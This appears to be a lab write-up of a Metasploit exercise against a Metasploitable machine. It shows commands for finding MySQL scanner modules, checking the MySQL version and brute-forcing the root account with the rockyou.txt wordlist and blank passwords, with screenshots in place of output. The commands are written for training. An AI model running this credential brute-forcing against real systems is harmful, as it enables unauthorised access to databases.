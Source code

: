 Use the search option to look for an auxiliary module to scan and enumerate the MySQL database.
```
search type:auxiliary mysql
```
## OUTPUT:
<img width="820" height="679" alt="Screenshot 2025-09-29 085236" src="https://github.com/user-attachments/assets/9d37a1d8-614d-488e-9f16-3e9b2fb02d0b" />
```
use the auxiliary/scanner/mysql/mysql_version
```
## OUTPUT:
<img width="820" height="650" alt="Screenshot 2025-09-29 085356" src="https://github.com/user-attachments/assets/982ab240-8a42-41e5-9fef-4d8127d147f0" />

module by typing the module name or associated number to scan MySQL version details.
```
use 11
```
## OUTPUT:
<img width="1920" height="1055" alt="use11" src="https://github.com/user-attachments/assets/b58d676a-f8f7-4969-9472-930c83c1d696" />


Use the set rhosts command to set the parameter and run the module, as follows:

After scanning, you can also brute force MySQL root account via Metasploit's auxiliary(scanner/mysql/mysql_login) module.

set the PASS_FILE parameter to the wordlist path available inside /usr/share/wordlists:

set PASS_FILE /usr/share/wordlists/rockyou.txt

Then, specify the IP address of the target machine with the RHOSTS command.

set RHOSTS <metasploitable-ip-address>

Set BLANK_PASSWORDS to true in case there is no password set for the root account.

set BLANK_PASSWORDS true
## OUTPUT:
<img width="828" height="904" alt="Screenshot 2025-09-29 085537" src="https://github.com/user-attachments/assets/907504f8-06f3-4fd6-be11-63678619daa3" />


## RESULT:
The Metasploit framework for reconnaissance is examined successfully
